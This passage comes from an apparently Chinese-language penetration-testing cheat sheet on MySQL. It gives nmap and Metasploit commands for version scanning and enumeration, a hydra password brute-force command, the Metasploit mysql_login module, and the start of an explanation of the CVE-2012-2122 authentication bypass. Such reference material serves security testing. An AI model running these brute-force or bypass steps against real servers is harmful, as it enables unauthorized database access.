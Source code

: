 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```cmd<br>nmap:<br>nmap -sV -p 3306 IP<br>msf:<br>use auxiliary/scanner/mysql/mysql_version<br>``` |

#### [](#%E5%85%B6%E5%AE%83%E7%9B%B8%E5%85%B3%E4%BF%A1%E6%81%AF)其它相关信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/admin/mysql/mysql_enum<br>``` |

### [](#mysql-%E5%AF%86%E7%A0%81%E7%A0%B4%E8%A7%A3)Mysql 密码破解

#### [](#hydra-4)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>hydra -L user.txt -P password.txt -v mysql://IP<br>``` |

#### [](#msf-8)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/scanner/mysql/mysql_login<br>``` |

### [](#mysql-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)Mysql 漏洞利用

#### [](#mysql-%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81%E6%BC%8F%E6%B4%9Ecve-2012-2122)MySQL 身份认证漏洞(CVE-2012-2122)

[https://seclists.org/oss-sec/2012/q2/493](https://seclists.org/oss-sec/2012/q2/493)

memcmp() 的返回值都在\[127，-128\]之内，把两个字符串逐个字符的比较，如果找到不一样的，就把这两个字符相减后返回

memcmp()返回 0 的时候 check\_scramble() 认证通过

